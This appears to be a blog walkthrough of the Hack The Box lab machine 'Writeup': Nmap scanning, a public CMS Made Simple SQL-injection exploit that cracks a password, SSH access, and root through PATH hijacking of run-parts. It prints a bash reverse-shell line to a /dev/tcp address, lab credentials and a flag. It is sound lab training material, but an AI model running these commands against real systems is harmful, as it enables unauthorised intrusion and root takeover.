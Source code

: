 +++
title = 'Hack the Box Writeup for Writeup'
date = 2019-10-19T18:25:19-07:00
hideToc = true
description = "Hack the Box Writeup walkthrough: Web application enumeration, file upload vulnerability, and privilege escalation via sudo misconfiguration."
+++
![Hack The Box Writeup](/posts/images/hack-the-box-writeup-writeup/badge.png)


# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
root@kali:/media/sf_Research# nmap -sVC 10.10.10.138
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-17 20:23 EDT
Nmap scan report for 10.10.10.138
Host is up (0.37s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.22 seconds
```

From the above output we can see that ports, **22** and **80** are the only ports open. It also appears as though there's a `robots.txt` file disallowing a directory called `/writeup` on the web server.


```console
root@kali:/media/sf_Research# curl http://10.10.10.138/robots.txt
#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: *
Disallow: /writeup/
```

![Index of port 80](/posts/images/hack-the-box-writeup-writeup/main_80.png)


Running some directory enumeration tools on the main web port didn't turn up anything interesting. The page indicates that the site isn't ready yet, but contains various articles on Hack The Box writeups. When we navigate to the `/writeup` directory we see that this is where the CMS root directory is located.

![/writeup running directory CMS Made Simple](/posts/images/hack-the-box-writeup-writeup/cms.png)


We can determine that the site is running [CMS Made Simple](https://www.cmsmadesimple.org/). This can be done by checking the source code, but in my case the Firefox extension [Webappalyzer](https://www.wappalyzer.com/) indicated such. After browsing unauthenticated exploits for the CMS we come across one that works perfectly [https://www.exploit-db.com/exploits/46635](https://www.exploit-db.com/exploits/46635).


# Exploitation  

In order to gain our initial foothold we execute the exploit with the `rockyou.txt` worldlist in order for it to crack the hashed password.

```console
root@kali:~/Desktop# python cmsmadesimple22-sql.py -u http://10.10.10.138/writeup --crack -w /usr/share/wordlists/rockyou.txt

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

While some users on the forum indicated the need to adjust their system time in order for this exploit to function, I did not have to do anything of that nature. The exploit returned the above the first time it was run, and then again when I rerooted the box for the purposes of this writeup.

The username and password did not provide access to the backend of the CMS. They do, however, provide us ssh access to the box.

## User Flag

In order to get the user flag, we simply need to ssh into the box and move to the home directory of the `jkr` user.

```
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jun 20 19:17:35 2019 from 10.10.14.157
jkr@writeup:~$ pwd
/home/jkr
jkr@writeup:~$ ls -la
total 72
drwxr-xr-x 2 jkr  jkr   4096 Jun 20 19:10 .
drwxr-xr-x 3 root root  4096 Apr 19 04:14 ..
-r--r--r-- 1 root root    33 Apr 19 08:43 user.txt
jkr@writeup:~$ cat user.txt
d4e493fd4068afc9eb1aa6a55319f978
```

## Root Flag

The privilege escalation for this box was not as immediately apparent to me as it was on SwagShop. Running [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration) did not return anything very useful for me. Some users on the forum indicated using a tool called [Pspy](https://github.com/DominicBreuker/pspy). This tool allows us to "Monitor Linux processes without root permissions". After running this script for a while something interesting appears when other users access the box via ssh.

![output from pyspy](/posts/images/hack-the-box-writeup-writeup/pyspy.png)


The `PATH` variable contains a directory `/usr/local/sbin` as its first priority.

```console
jkr@writeup:~$ cd /usr/local/
jkr@writeup:/usr/local$ ls -la
total 64
drwxrwsr-x 10 root staff  4096 Apr 19 04:11 .
drwxr-xr-x 10 root root   4096 Apr 19 04:11 ..
drwx-wsr-x  2 root staff 20480 Apr 19 04:11 bin
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 etc
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 games
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 include
drwxrwsr-x  4 root staff  4096 Apr 24 13:13 lib
lrwxrwxrwx  1 root staff     9 Apr 19 04:11 man -> share/man
drwx-wsr-x  2 root staff 12288 Apr 19 04:11 sbin
drwxrwsr-x  7 root staff  4096 Apr 19 04:30 share
drwxrwsr-x  2 root staff  4096 Apr 19 04:11 src
```

As we see above, we also have access to write to and execute scripts from the `/usr/local/sbin` directory. This means that we can create our own `run-parts` to execute other scripts as root. So lets do that.


First we create a script to call our reverse shell, because adding the reverse shell directly to `run-parts` didn't seem to be doing the trick.

```console
jkr@writeup:/usr/local/sbin$ nano shelly.sh && chmod +x shelly.sh
```

Here is what `shelly.sh` contains.

```bash
#!/bin/sh  
bash -i >& /dev/tcp/10.10.14.52/4444 0>&1
```

Next we actually create the `run-parts` script within `/usr/local/sbin` so that it calls `shelly.sh`

```console
jkr@writeup:/usr/local/sbin$ nano run-parts && chmod +x run-parts
```

When we ssh in again from another terminal, we'll get our reverse shell with root privileges.

![tmux screenshot of achieving root privileges](/posts/images/hack-the-box-writeup-writeup/rooted.png)


# Conclusion

Writeup was a quick and easy box. The initial exploit for the CMS was really fun to watch run, as others have said it felt like The Matrix. After that, the privilege escalation had me a little stumped until I heard about pyspy, then it was fairly easy since the `PATH` variable stuck out like a soar thumb. It was still fun to figure out how to exploit that after discovery though, and getting the root shell was rather satisfying.
